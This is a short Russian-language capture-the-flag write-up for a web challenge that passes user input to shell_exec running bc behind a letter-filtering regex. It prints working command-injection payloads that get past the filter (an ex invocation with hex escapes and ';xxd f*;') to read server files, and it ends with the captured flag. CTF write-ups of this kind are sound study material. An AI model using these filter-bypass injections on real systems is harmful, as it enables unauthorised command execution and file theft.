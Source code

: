 BC (CTB 100)
=======
У нас есть онлайн калькулятор командной строки для Linux(https://hy17-bc.spb.ctf.su/)

Так же имеем исходный код страницы(https://hy17-bc.spb.ctf.su/?source), где мы передаем POST параметр `$expr`в
```php
shell_exec("bc 2>&1 <<<'$expr'")
```
Но есть проблема, перед тем как выполнить код выше, наш запрос проходит через регулярное выражение
```php
if (preg_match('#[g-wy-z]#si', $expr))
```
Которое гласит, что нам можно использовать только `[abcdefx]` и любые символы пунктуцации

Я очень долго искал решение к этому заданию, и пришел к такому выводу
```
'&&ex +%$'\x70' -$'\x73\x63\x71'! -c *;'
```
В нормальном виде выглядит так
```
'&&ex +%p -scq! -c *;'
```
`ex` - это текстовый редактор linux в котором можно выполнять команды bash как в vim

Я говорю ему прочитать все, что есть в первом попавшемся файле в дирректории и перенаправляю вывод на командную строку

Сделать так, что читались сразу все файлы, пока не получилось

Перед там как написать свой Write-up, я глянул чужие работы и понял, что я сильно заморачивался и можно было так
```
';xxd f*;'
```
Обидно то, что вокруг этой команды я плясал оочень долго:D

И собственно флаг
> hy17{9edd3d10987207dc1f97a9bfc6af269f}
